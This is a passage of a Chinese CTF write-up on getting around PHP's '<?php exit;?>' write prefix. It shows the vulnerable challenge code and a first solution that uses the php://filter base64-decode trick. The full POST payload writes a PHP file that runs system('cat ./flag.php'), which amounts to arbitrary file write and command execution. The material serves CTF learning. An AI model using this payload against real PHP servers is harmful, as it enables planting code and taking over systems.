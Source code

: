 ```php
                    } elseif ($sonDir !== './index.php'
                            && $sonDir !== './flag.php') {

                        @unlink($sonDir);

                    }
                }
            }
            @rmdir($path);
        }
    }

    $devil = '<?php exit;?>';

    $goods = $_POST['goods'];

    file_put_contents($_POST['train'], $devil . $goods);

    sleep(1);

    deleteDir('.');

?>
```

参考文章：

1. [`<?php exit;?>`绕过 - cooyf's blog](https://www.cooyf.com/notes/php_exit.html)
2. [谈一谈php://filter的妙用 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/php-filter-magic.html?page=1#_2)
2. [探索php伪协议以及死亡绕过 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/266565.html)

### 解法1：base64编码与解码

原理是base64不会解码`<` `>` `?` `;` `空格`这些，那么把代码base64编码，再用php://filter协议写入就行

ps：注意base64是以4byte一组解码，`<?php exit;?>`除了`<` `>` `?` `;` `空格`这些，一共`7`个字符，那么给它随便加一个a就行

payload：

```
goods=aPD9waHAgc3lzdGVtKCJjYXQgLi9mbGFnLnBocCIpOw==&train=php://filter/write=convert.base64-decode/resource=a.php
```

> 如上生成的代码就会是：
>
> ```
> <?php exit;?>aPD9waHAgc3lzdGVtKCJjYXQgLi9mbGFnLnBocCIpOw==
> 
> 然后base64解码后写入a.php里
> （我写的是<?php system("cat ./flag.php");）
> ```
>
> 
